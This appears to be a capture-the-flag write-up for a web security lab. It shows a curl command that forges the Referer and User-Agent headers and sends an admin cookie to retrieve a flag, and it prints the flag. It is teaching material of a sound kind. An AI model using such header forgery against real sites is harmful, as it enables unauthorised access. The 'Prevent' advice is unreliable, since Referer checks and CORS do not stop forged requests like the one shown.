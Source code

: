 # Description

Visting Home page we find a link in `© BornToSec` in the footer of the page.

If we checked the source code of the html file we find this string
`<!--
You must come from : "https://www.nsa.gov/".
-->
`

As it seems that we need to change to referer of the request so that it the webserver thinks that the request is comming from `https://www.nsa.gov/`


# Attack

```bash
*[main][~/projects/darkly]$ curl 'http://10.14.59.83/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
  -H 'Referer: https://www.nsa.gov/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: ft_bornToSec' \
  --compressed \
  --insecure | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2574    0  2574    0     0  2486k      0 -<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
-:--:-- --:--:-- --:--:-- 2513k

```

# Prevent
	- *Referrer Header Check:*Implement a server-side check that verifies the Referer header of incoming requests. If the request is supposed to come from a specific source, make sure it matches that source. If it doesn't, deny the request.

	- *Use Same-Origin Policy:* Leverage the Same-Origin Policy to prevent unauthorized cross-origin requests. Configure your server to disallow requests from domains other than your own.

	- *Cross-Origin Resource Sharing (CORS):* If you need to allow certain cross-origin requests, set up CORS properly. Specify which origins are allowed to access your resources by configuring CORS headers on the server.